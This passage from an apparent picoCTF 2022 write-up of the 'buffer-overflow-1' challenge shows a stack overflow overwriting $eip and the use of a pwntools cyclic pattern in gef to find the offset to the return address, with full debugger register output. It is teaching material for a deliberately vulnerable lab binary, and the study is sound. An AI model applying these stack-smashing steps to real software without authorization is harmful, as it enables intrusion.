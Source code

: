 <div style="margin-top:-2.5%; margin-bottom:2.5%;">Look what happened: our program threw a SIGSEGV (segmentation) fault, as it is trying to reference the address <code>0x41414141</code>, which doesn&#39;t exist! This is because our <code>$eip</code> was overwritten by all our <code>A</code>s (<code>0x41</code> in hex = <code>A</code> in ASCII).</div>

### III: Finessing the Stack 🛠️

Although we've managed to smash the stack, we still don't know the offset (**how many** `A`s we need to pass in order to reach the `$eip`). To solve this problem, we can use the pwntools `cyclic` command, which creates a string with a recognizable cycling pattern for it to identify:

<figure class="highlight text"><table><tr><td class="code"><pre><span style="color:#47D4B9"><b>gef➤  </b></span>shell cyclic 48
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaa
<span style="color:#47D4B9"><b>gef➤  </b></span>r
Starting program: /home/kali/ctfs/pico22/buffer-overflow-1/vuln 
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaa
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c

Program received signal SIGSEGV, Segmentation fault.
<span style="color:#367BF0">0x6161616c</span> in <span style="color:#FEA44C">??</span> ()
[ Legend: <span style="color:#EC0101"><b>Modified register</b></span> | <span style="color:#D41919">Code</span> | <span style="color:#5EBDAB">Heap</span> | <span style="color:#9755B3">Stack</span> | <span style="color:#FEA44C">String</span> ]
<span style="color:#585858"><b>──────────────────────────────────────────────────────────────────── </b></span><span style="color:#49AEE6">registers</span><span style="color:#585858"><b> ────</b></span>
<span style="color:#EC0101"><b>$eax   </b></span>: 0x41      
<span style="color:#EC0101"><b>$ebx   </b></span>: 0x6161616a (&quot;<span style="color:#FEA44C">jaaa</span>&quot;?)
<span style="color:#EC0101"><b>$ecx   </b></span>: 0x41      
<span style="color:#EC0101"><b>$edx   </b></span>: 0xffffffff
<span style="color:#EC0101"><b>$esp   </b></span>: <span style="color:#9755B3">0xffffd130</span>  →  0x00000000
<span style="color:#EC0101"><b>$ebp   </b></span>: 0x6161616b (&quot;<span style="color:#FEA44C">kaaa</span>&quot;?)
<span style="color:#EC0101"><b>$esi   </b></span>: 0x1       
<span style="color:#EC0101"><b>$edi   </b></span>: <span style="color:#D41919">0x80490e0</span>  →  <span style="color:#585858"><b>&lt;_start+0&gt; endbr32 </b></span>
<span style="color:#EC0101"><b>$eip   </b></span>: 0x6161616c (&quot;<span style="color:#FEA44C">laaa</span>&quot;?)
<span style="color:#367BF0">$cs</span>: 0x23 <span style="color:#367BF0">$ss</span>: 0x2b <span style="color:#367BF0">$ds</span>: 0x2b <span style="color:#367BF0">$es</span>: 0x2b <span style="color:#367BF0">$fs</span>: 0x00 <span style="color:#EC0101"><b>$gs</b></span>: 0x63 
<span style="color:#585858"><b>────────────────────────────────────────────────────────────────── </b></span><span style="color:#49AEE6">code:x86:32</span><span style="color:#585858"><b> ────</b></span>
<span style="color:#EC0101"><b>[!]</b></span> Cannot disassemble from $PC
<span style="color:#EC0101"><b>[!]</b></span> Cannot access memory at address 0x6161616c
<span style="color:#585858"><b>────────────────────────────────────────────────────────────────────── </b></span><span style="color:#49AEE6">threads</span><span style="color:#585858"><b> ────</b></span>
[<span style="color:#47D4B9"><b>#0</b></span>] Id 1, Name: &quot;vuln&quot;, <span style="color:#EC0101"><b>stopped</b></span> <span style="color:#367BF0">0x6161616c</span> in <span style="color:#FF8A18"><b>??</b></span> (), reason: <span style="color:#962AC3"><b>SIGSEGV</b></span>
</pre></td></tr></table></figure>

